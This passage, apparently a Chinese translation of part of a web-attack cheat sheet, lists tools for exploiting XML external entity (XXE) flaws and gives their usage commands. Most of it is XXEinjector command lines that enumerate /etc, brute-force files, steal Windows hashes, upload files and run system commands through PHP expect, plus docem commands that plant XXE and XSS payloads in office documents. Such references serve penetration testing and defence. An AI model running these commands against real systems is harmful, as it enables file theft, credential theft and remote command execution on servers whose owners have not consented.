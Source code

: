 - [230-OOB](https://github.com/lc/230-OOB) - 通过[http://xxe.sh/](http://xxe.sh/)进行FTP检索文件内容和有效载荷生成的带外XXE服务器

  ```ps1
  $ python3 230.py 2121
  ```

- [XXEinjector](https://github.com/enjoiz/XXEinjector) - 使用直接或不同带外方法自动利用XXE漏洞的工具

  ```ps1
  # 枚举HTTPS应用程序中的/etc目录：
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
  # 使用gopher进行OOB方法枚举/etc目录：
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  # 二次利用：
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  # 使用HTTP带外方法和netdoc协议暴力破解文件：
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  # 使用直接利用枚举：
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
  # 枚举未过滤端口：
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  # 窃取Windows哈希：
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  # 使用Java jar上传文件：
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  # 使用PHP expect执行系统命令：
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  # 测试XSLT注入：
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  # 仅记录请求：
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
  ```

- [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - 用于将XXE/XML漏洞嵌入到不同文件类型（DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF）的工具

  ```ps1
  ruby server.rb
  ```

- [docem](https://github.com/whitel1st/docem) - 用于在docx、odt、pptx等中嵌入XXE和XSS有效载荷的实用程序

  ```ps1
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
  ./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
  ```

- [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - 旨在允许有效利用XXE漏洞的工具箱。
